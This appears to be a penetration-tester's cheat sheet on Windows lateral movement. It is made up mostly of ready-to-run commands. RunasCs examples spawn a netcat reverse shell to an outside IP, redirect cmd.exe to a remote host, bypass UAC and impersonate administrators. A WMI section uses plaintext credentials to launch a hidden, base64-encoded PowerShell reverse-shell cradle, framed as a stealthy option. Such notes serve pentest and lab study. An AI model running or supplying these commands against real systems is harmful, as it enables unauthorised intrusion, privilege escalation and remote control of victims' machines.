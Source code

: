 # Lateral Movement

## Techniques

### [RunasCs](../11%20Windows/0%20Lateral%20Movement/RunasCs.md)

```powershell
# Run a command as a local user
.\RunasCs.exe user1 password1 "cmd /c whoami /all"

# Run a command as a domain user and logon type as NetworkCleartext (8)
.\RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8

# Run a background process as a local user,
.\RunasCs.exe user1 password1 "C:\Temp\nc.exe 10.10.14.82 9001 -e cmd.exe" -t 0

# Redirect stdin, stdout and stderr of the specified command to a remote host
.\RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444

# Run a command simulating the /netonly flag of runas.exe
.\RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9

# Run a command as an Administrator bypassing UAC
.\RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac

# Run a command as an Administrator through remote impersonation
.\RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

### wmic (WMI - 445)

`wmic` is an alternative to RunasCs if we dont have file download permission or need to be stealthy

```powershell
# Start a process
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"

# Pop a shell
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options
# Create a cradle with ps_cradle_gen.sh to upload
$Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
